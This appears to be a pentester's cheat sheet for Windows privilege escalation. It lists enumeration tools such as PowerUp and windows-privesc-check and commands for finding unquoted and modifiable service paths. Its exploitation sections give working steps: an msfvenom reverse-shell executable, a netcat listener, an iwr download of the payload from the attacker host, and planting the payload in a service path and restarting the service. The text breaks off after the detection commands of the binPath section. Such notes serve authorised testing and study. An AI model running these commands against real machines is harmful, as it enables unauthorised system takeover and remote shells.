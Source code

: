 ### PowerUp

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1  

### Windows Privesc check

```cmd
windows-privesc-check2.exe --dump -G
```

https://github.com/pentestmonkey/windows-privesc-check

## Privilege Escalation

### Unquoted Service Path

- Detection

```powershell
wmic service get Name,State,PathName | findstr "Program"  
sc qc <service_name>  
\\ BINARY_PATH_NAME display Unquoted Service Paths, without ""
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```

- Exploitation - attacker

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
nc -nvlp <port>
```

- Exploitation - windows

```powershell
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>  
sc stop <service_name>
sc start <service_name>
# or 
shutdown /r
```

### binPath - Services [PrivEsc]

- Detection

```powershell
. .\PowerUp.ps1
Get-ModifiableService -Verbose
# OR
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
`//(F) and (i) (F)`
accesschk.exe -wuvc <service_name>
`//RW Everyone ` 
`//  SERVICE_CHANGE_CONFIG`
sc qc <service_name>
```
